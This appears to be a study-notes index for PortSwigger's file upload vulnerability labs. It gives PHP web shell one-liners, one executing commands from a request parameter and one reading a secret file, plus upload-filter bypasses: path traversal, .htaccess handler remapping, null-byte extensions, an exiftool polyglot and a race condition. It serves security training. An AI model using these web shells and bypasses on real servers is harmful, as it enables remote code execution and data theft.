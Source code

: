 # [File upload vulnerabilities](https://portswigger.net/web-security/file-upload)

## Lab

- apprentice:
  - [1. Remote code execution via web shell upload](./lab/1.%20Remote%20code%20execution%20via%20web%20shell%20upload.md)
  - [2. Web shell upload via Content-Type restriction bypass](./lab/2.%20Web%20shell%20upload%20via%20Content-Type%20restriction%20bypass.md)
- practitioner:
  - [3. Web shell upload via path traversal](./lab/3.%20Web%20shell%20upload%20via%20path%20traversal.md)
  - [4. Web shell upload via extension blacklist bypass](./lab/4.%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass.md)
  - [5. Web shell upload via obfuscated file extension](./lab/5.%20Web%20shell%20upload%20via%20obfuscated%20file%20extension.md)
  - [6. Remote code execution via polyglot web shell up](./lab/6.%20Remote%20code%20execution%20via%20polyglot%20web%20shell%20up.md)
- expert:
  - [7. Web shell upload via race condition](./lab/7.%20Web%20shell%20upload%20via%20race%20condition.md)

## PHP shellcode

```php
<?php echo system($_GET['command']); ?>
```

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

## Exploit

1. directly upload shellcode:
    - [lab](./lab/1.%20Remote%20code%20execution%20via%20web%20shell%20upload.md)
2. change MIME type at Content-Type header to a valid type:
    - [lab](./lab/2.%20Web%20shell%20upload%20via%20Content-Type%20restriction%20bypass.md)
3. if the shellcode upload is successful but when accessing the shellcode, the server does not execute the code, try `path traversal` to upload the shellcode to another directory.
    - ../shellcode.php
    - obfuscation: ..%2fshellcode.php
    - [lab](./lab/3.%20Web%20shell%20upload%20via%20path%20traversal.md)
4. if we encounter blacklist obstacles, try some uncommon extension:
    - html5, php7, htaccess, ...
    - if we can upload a htaccess file, edit the content like this:

    ```htaccess
    AddHandler application/x-httpd-php .html
    ```

    - then try upload shellcode with html extension
    - [lab](./lab/4.%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass.md)
5. obfuscate: shellcode.php%00.jpg
    - [lab](./lab/5.%20Web%20shell%20upload%20via%20obfuscated%20file%20extension.md)
6. polygot web shell:

    ```bash
    exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
    ```

    - [lab](./lab/6.%20Remote%20code%20execution%20via%20polyglot%20web%20shell%20up.md)
7. race condition
    - start intruder attack with request to expected location of shellcode
    - upload shellcode
    - check if any response with status code 200

    - [lab](./lab/7.%20Web%20shell%20upload%20via%20race%20condition.md)
